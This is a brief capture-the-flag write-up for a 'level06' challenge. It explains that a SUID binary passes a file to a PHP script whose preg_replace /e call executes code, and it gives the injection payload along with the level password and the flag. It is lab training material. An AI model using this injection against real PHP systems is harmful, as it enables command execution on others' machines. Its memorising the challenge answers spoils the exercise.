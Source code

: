 username: level06  
password: viuaaale9huek52boumoomioc
---

`level06` has SUID bit set, it executes `level06.php` with a filename as argument.

`level06.php` uses `preg_replace` with `/e` which allow us to call a function when a regex match.

Executing the following command outputs the flag

```
echo '[x {${system(getflag)}}]' > /tmp/a && ./level06 /tmp/a 2>/dev/null
```

The flag is: wiok45aaoguiboiki2tuin6ub
